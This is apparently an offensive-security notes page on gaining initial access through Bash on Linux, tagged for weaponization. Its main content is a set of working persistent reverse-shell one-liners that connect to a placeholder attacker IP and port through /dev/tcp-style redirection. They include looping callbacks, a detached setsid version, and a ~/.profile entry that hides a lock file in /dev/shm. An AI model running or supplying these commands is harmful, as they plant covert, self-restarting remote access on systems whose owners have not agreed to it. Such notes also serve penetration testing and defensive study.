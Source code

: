 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - T1059-004
  - linux
---
```

# Manual

## 01 - Common Files

Refer to this [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Cross Platform/Code Execution/Bash/Manual|section]] of the maximum characters limit.

```
/bin/sh
/usr/bin/sh
/bin/dash
/usr/bin/dash
```

## 02 - Execute Payloads

### 2.1 - Persistent Callback Shell

In case you might lose the callback connection. It's better to make it persistent.

```
$ while true; do /bin/shh -c /path/to/payload; sleep 10; done

$ while true; do /bin/sh -i >& /dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 10; done

$ setsid bash -c 'while :; do sh -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1; sleep 360; done' &>/dev/null
```

Prevents multiple instances while written in `~/.profile`.

```
$ fuser /dev/shm/.busy &>/dev/null || nohup /bin/sh -c 'while :; do touch /dev/shm/.busy; exec 3</dev/shm/.busy; sh -i &>/dev/<protocol>/<attacker_IP>/<attacker_PORT> 0>&1 ; sleep 360; done' &>/dev/null &
```

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/linux-hardening/bypass-bash-restrictions/index.html)